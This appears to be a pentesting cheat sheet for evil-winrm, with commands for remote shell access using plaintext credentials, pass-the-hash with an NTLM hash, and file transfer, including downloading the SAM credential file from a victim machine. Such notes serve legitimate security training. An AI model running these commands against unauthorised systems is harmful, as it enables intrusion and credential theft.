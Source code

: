 > WinRM (Windows Remote Management) is the Microsoft implementation of WS-Management Protocol. A standard SOAP based protocol that allows hardware and operating systems from different vendors to interoperate. Microsoft included it in their Operating Systems in order to make life easier to system administrators.
> 
> It is using PSRP (Powershell Remoting Protocol) for initializing runspace pools as well as creating and processing pipelines.
> 
> This tool provides various built-in functions for penetration testing such as pass the hash, in-memory loading, and file upload/download


# Usage

## Shell Access

#Shell_Access #Remote_Access #Windows_Privilege_Escalation #WinRM

Using `evil-winrm` to connect
```bash
evil-winrm -i 192.168.50.169 -u salesman -p "salessalessales123\!\!"
```
```bash
proxychains evil-winrm -i 172.16.101.123 -u Administrator@hentai.com -p 'sa!eS4evr123v4$'
```

#Pass_the_Hash 

Using `evil-winrm` to pass the hash
```
evil-winrm -i <target-ip> -P 5986 -u username -H 2e9169a2491610b0bcf4f8722a37c969
```

## File Transfer

#File_Sharing 

Using `evil-winrm` to download file from victim machine
```bash
download sam
```

Using `evil-winrm` to upload file to victim machine
```
upload local_filename
```
